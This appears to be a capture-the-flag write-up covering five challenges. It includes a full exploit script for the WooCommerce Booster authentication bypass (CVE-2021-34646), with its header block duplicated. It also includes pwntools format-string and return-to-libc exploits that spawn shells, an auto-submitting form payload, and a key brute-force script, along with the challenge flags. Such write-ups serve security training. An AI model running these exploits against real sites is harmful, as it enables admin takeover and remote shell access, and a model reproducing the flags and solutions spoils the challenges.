


# Secure WP Hosting

We searched for an exploit online.

<details><summary>Exploit</summary>
<p>

    # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
    # Date: 2021-09-16
    # Exploit Author: Sebastian Kriesten (0xB455)
    # Contact: https://twitter.com/0xB455
    #
    # Affected Plugin: Booster for WooCommerce
    # Plugin Slug: woocommerce-jetpack
    # Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
    # Affected Versions: <= 5.4.3
    # Fully Patched Version: >= 5.4.4
    # CVE: CVE-2021-34646
    # CVSS Score: 9.8 (Critical)
    # Category: webapps
    #
    # 1:
    # Goto: https://target.com/wp-json/wp/v2/users/
    # Pick a user-ID (e.g. 1 - usualy is the admin)
    #
    # 2:
    # Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
    #
    # 3:
    # Check-Out  out which of the generated links allows you to access the system
    #
    import requests,sys,hashlib
    import argparse
    import datetime
    import email.utils
    import calendar
    import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
    # Date: 2021-09-16
    # Exploit Author: Sebastian Kriesten (0xB455)
    # Contact: https://twitter.com/0xB455
    #
    # Affected Plugin: Booster for WooCommerce
    # Plugin Slug: woocommerce-jetpack
    # Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
    # Affected Versions: <= 5.4.3
    # Fully Patched Version: >= 5.4.4
    # CVE: CVE-2021-34646
    # CVSS Score: 9.8 (Critical)
    # Category: webapps
    #
    # 1:
    # Goto: https://target.com/wp-json/wp/v2/users/
    # Pick a user-ID (e.g. 1 - usualy is the admin)
    #
    # 2:
    # Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
    #
    # 3:
    # Check-Out  out which of the generated links allows you to access the system
    #
    import requests,sys,hashlib
    import argparse
    import datetime
    import email.utils
    import calendar
    import base64
    
    B = "\033[94m"
    W = "\033[97m"
    R = "\033[91m"
    RST = "\033[0;0m"
    
    parser = argparse.ArgumentParser()
    parser.add_argument("url", help="the base url")
    parser.add_argument('id', type=int, help='the user id', default=1)
    args = parser.parse_args()
    id = str(args.id)
    url = args.url
    if args.url[-1] != "/": # URL needs trailing /
          url = url + "/"
    
    verify_url= url + "?wcj_user_id=" + id
    r = requests.get(verify_url)
    
    if r.status_code != 200:
          print("status code != 200")
          print(r.headers)
          sys.exit(-1)
    
    def email_time_to_timestamp(s):
      tt = email.utils.parsedate_tz(s)
      if tt is None: return None
      return calendar.timegm(tt) - tt[9]
    
    date = r.headers["Date"]
    unix = email_time_to_timestamp(date)
    
    def printBanner():
      print(f"{W}Timestamp: {B}" + date)
      print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
      print("We need to generate multiple timestamps in order to avoid delay related timing errors")
      print("One of the following links will log you in...\n")
    
    printBanner()
    
    for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
          hash = hashlib.md5(str(unix-i).encode()).hexdigest()
          print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
          token='{"id":"'+ id +'","code":"'+hash+'"}'
          token = base64.b64encode(token.encode()).decode()
          token = token.rstrip("=") # remove trailing =
          link = url+"my-account/?wcj_verify_email="+token
          print(link + f"\n{RST}")
</p>
</details>

Usage:

```$bash
$ python3 exploit.py https://ctf-sp.dcc.fc.up:5001/ 1
```

The first argument is the url and the second is the user id. We used '1' because usually it is the admin user.


We clicked on the 3 links and one of them opened the admin panel.
</br>

From there we could access the WordPress dashboard.
</br>

After looking around we found the flag in the 'Posts' section.
</br>

There was a post titled :'Message to our employees'. We found the flag as the current password.

### flag{please don't bother me}

<br/>

# Final Format

First we tested the provided command:


Then, we tested if the string format vulnerability was there:


After this, we used gdb on our program and by using the `info functions` command we were able to see all functions present in the code:


One of the most important functions was `old_backdoor` because after analyzing this function with the `disas` command we found a system call that would open up a shell:


Because we needed to run that function, we wanted to redirect the flow of the program to that address.

To do this, we used the gdb to find instructions where the code would jump to other addresses.
We found a jump to the following address: `0x0804c010`.

After this, we built an exploit that would re-write the `old_backdoor` function to that address using format vulnerabilities:

Then we built this script:

<details><summary>exploit.py</summary>
<p>

    from pwn import *

    LOCAL = False
    
    if LOCAL:
        pause()
    else:
        p = remote("ctf-sp.dcc.fc.up.pt", 4007)
    
    #0x08049236  old_backdoor
    
    N = 60
    content = bytearray(0x0 for i in range(N))
    
    content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
    content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
    content[8:12]  =  ("????").encode('latin-1')
    content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')
    
    s = "%.2036x" + "%hn" + "%.35378x%hn"
    
    fmt  = (s).encode('latin-1')
    content[16:16+len(fmt)] = fmt
    
    p.recvuntil(b"here...")
    p.sendline(content)
    p.interactive()
</p>
</details>


### flag{89784e5a7297422f288403d3d4c02b64}

<br/>

# Apply for Flag II

When we open the link we are greeted with this page:


After giving an input we get this:


After clicking `page` we get this:


We tried pressing `here` but it would only get us to the previous menu.


We went back to the beggining again and refreshed the page, and noticed the id in the URL changed.
It changed everytime we refreshed the page.

To be able to submit directly to the last page, a post request needs to be created for the url 'http://ctf-sp.dcc.fc.up.pt:5005/request/' followed by the id shown on the home page, which is based on a new button that redirects to the page we want.

```html
<form method="POST" action="http://ctf-sp.dcc.fc.up.pt:5005/request/d31b90cb6ddab3d7937611f8bf6c82d040faa28b/approve" role="form">          
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">   
    </div>  
</form>    

<script type="text/javascript"> 
    document.querySelector('#giveflag').click();  
</script>
```

Now let's try this as an input in the beggining and try to find a way to get the flag.


After submitting the form we get an error that can only be resolved by disabling javascript on the browser.

With javascript disable we get this page:


When we try to click on the `give the flag` button, we are fowarded to this page:


So we tried the other button (`page`) and got this:


The same menu as before, but now when we click the `here` button we are fowarded to this page with the flag in it:



### flag{896d46a172d0bc8bd9a4f27259fbfac8}

<br/>

# Echo

We tried running the provided command and got this:


After this, we debugged the program, finding that a `fgets` function was reading 100 characters which is not normal as the maximum number of characters is, supposedly, 20.

We suspected a format string vulnerability was occuring, so we checked for it:


We were able to print the stack's information, confirming our suspicions.

After a search we found information about an attack called `Return-to-libc`. We built this script for that:

<details><summary>script.py</summary>
<p>

    #!/usr/bin/python3
    from pwn import *
    
    LOCAL = False
    
    referenceLibOffset = 0xf7daa519 - 0xf7d89000
    systemLibOffset = 0x48150
    shLibOffset = 0x1bd0f5
    
    def sendMessage(p, message):
        p.recvuntil(b">")
        p.sendline(b"e")
        p.recvuntil(b"Insert your name (max 20 chars): ")
        p.sendline(message)
        answer = p.recvline()
        p.recvuntil(b"Insert your message: ")
        p.sendline(b"")
        return answer
    
    if LOCAL:
        pause()
    else:
        p = remote("ctf-sp.dcc.fc.up.pt", 4002)
    
    firstMessage = sendMessage(p, b"%8$x-%11$x")
    
    canary, referenceVal = [int (val, 16) for val in firstMessage.split(b'-')]
    
    libBase = referenceVal - referenceLibOffset
    addressSystem = libBase + systemLibOffset
    addressSH = libBase + shLibOffset
    
    secondMessage = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)
    
    sendMessage(p, secondMessage)
    
    sendMessage(p, b"A"*19)
    
    p.interactive()
</p>
</details>

We ran it and got the flag:


### flag{fbd17d5002b71e3fa94f7d1973087ecd}

<br/>

# NumberStation3

We tried to open the service through the provided command:



After inspecting the provided code, we modified it to do what we only needed to do: catch the flag.

<details><summary>updated challenge.py</summary>
<p>

    # Python Module ciphersuite
    import os
    from cryptography.hazmat.backends import default_backend
    from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
    from binascii import unhexlify
    
    FLAG_FILE = '/flags/flag.txt'
    
    # Use crypto random generation to get a key with length n
    def gen():
        rkey = bytearray(os.urandom(16))
        for i in range(16): rkey[i] = rkey[i] & 1
        return bytes(rkey)
    
    
    # Reverse operation
    def dec(k, c):
        assert len(c) % 16 == 0
        cipher = Cipher(algorithms.AES(k), modes.ECB(), default_backend())
        decryptor = cipher.decryptor()
        blocks = len(c) // 16
        msg = b""
        for i in range(0, blocks):
            msg += decryptor.update(c[i * 16:(i + 1) * 16])
            msg = msg[:-15]
        msg += decryptor.finalize()
        return msg
    
    
    c_shell = b"7bfeeadf2f0f66ad0461ae237b3d040853c2758c5b9029faffbaca7d25dab846c66c695d47274fd3e1fd60cd99843cbb72b9676031ab3fdae2695a5fdc6cee8111f2c4f9010adccbf3eb56b405b3533bdba703d8210453e9f255c3e68a5c7c23cbe6cfe35f80a2d7209548984d8651125f3635a91cbcfed349883c09e14c08b07484d68102b50553ad9252c1ffd7ebcd059c8f9b3633718463ea1658d920b950dba703d8210453e9f255c3e68a5c7c23059c8f9b3633718463ea1658d920b950d3354bcb298ae7cd39bc90b71543c92b5f3635a91cbcfed349883c09e14c08b0c66c695d47274fd3e1fd60cd99843cbbcbe6cfe35f80a2d7209548984d865112cbe6cfe35f80a2d7209548984d86511268489f9bdc529e046dd055645e9b3096776e005edfb5fd2f0c7c1d433dbb21d53616b92cdb8004af1c06b1269f0cd8bfcbe6cfe35f80a2d7209548984d865112d3354bcb298ae7cd39bc90b71543c92b776e005edfb5fd2fOc7c1d433dbb21d5776e005edfb5fd2f0c7c1d433dbb21d57bfeeadf2f0f66ad0461ae237b3d0408e654c0832f562afc194016eaef4277f197c6ebcd41e48aaa875a231e30cbcff8e654c0832f562afc194016eaef4277f1dba703d8210453e9f255c3e68a5c7c239d6820fc2d6d43c97d7d5d637f10da46cbe6cfe35f80a2d7209548984d86511268489f9bdc529e046dd055645e9b30969d6820fc2d6d43c97d7d5d637f10da46e654c0832f562afc194016eaef4277f1059c8f9b3633718463ea1658d920b9503616b92cdb8004af1c06b1269f0cd8bf5f3635a91cbcfed349883c09e14c08b0b9c91d79af681e5ef6ccc97437d7ea2822adcdfea7eefbee037f05ecda89263d"
    
    for i in range(2 ** 16):
        # print(i)
        k2 = gen()
        if dec(k2, unhexlify(c_shell)).decode('latin-1')[0:4] == "flag":
            print(dec(k2,unhexlify(c_shell)).decode('latin-1'))
            break
</p>
</details>

Then we ran it, and it gave us the flag:


### flag{2375121b7a338043b00f6d6293896147}

